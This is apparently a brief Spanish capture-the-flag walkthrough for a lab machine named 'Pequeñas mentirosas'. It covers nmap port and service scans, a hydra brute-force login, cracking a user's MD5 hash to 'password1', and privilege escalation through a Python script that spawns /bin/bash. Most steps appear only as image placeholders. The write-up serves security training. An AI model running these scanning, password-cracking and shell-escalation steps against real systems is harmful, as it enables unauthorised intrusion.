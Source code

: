 # Maquina Pequeñas mentirosas

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p80 -vvv -Pn 172.17.0.2

![alt text](image-1.png)

## Entrando a la Web

![alt text](image-2.png)

## Ataque con hydra

![alt text](image-3.png)

## Intrusion

Con las credenciales encontradas iniciamos sesión

![alt text](image-4.png)

ver usuarios:

![alt text](image-5.png)

en la ruta: srv/ftp

cat hash_spencer.txt
7c6a180b36896a0a8c02787eeafb0e4c

utilizando crackstation:

![alt text](image-6.png)

password1

Cambiamos al usuario spencer

## Escalar privilegios

![alt text](image-7.png)

hacemos:

echo "import os
os.system('/bin/bash')" > script.py

![alt text](image-8.png)


